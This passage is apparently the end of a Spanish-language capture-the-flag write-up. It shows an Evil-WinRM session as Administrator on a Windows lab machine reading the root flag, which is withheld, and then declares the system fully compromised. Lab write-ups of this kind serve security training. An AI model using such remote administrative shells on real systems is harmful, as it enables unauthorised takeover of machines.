Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt

<Encuentre su propia root flag>
~~~

🎉 Sistema completamente comprometido - Root obtenido

